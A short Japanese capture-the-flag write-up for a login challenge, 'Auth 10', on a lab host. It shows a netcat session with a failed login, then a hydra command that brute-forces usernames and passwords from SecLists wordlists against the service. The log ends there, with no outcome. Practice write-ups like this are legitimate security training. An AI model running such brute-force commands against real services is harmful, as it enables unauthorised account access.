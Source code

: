 # Auth 10
ログイン機能を作ってみました。By C 言語ルーキー

対象 IP アドレス:ポート:10.10.10.15:1001

解答方式:flag{************}

## log

````
$ nc "10.10.10.15" 1001
   _____          __  .__      
  /  _  \  __ ___/  |_|  |__   
 /  /_\  \|  |  \   __\  |  \  
/    |    \  |  /|  | |   Y  \ 
\____|__  /____/ |__| |___|  / 
        \/                 \/  

User: admin
Password: pwd
Invalid password...
```

他の問題でダウンロードしたパスワードリストを使ってみます。

```
hydra -L ./SecLists/Passwords/UserPassCombo-Jay.txt -P ./SecLists/Passwords/2020-200_most_used_passwords.txt "ftp://10.10.10.15:1001"
```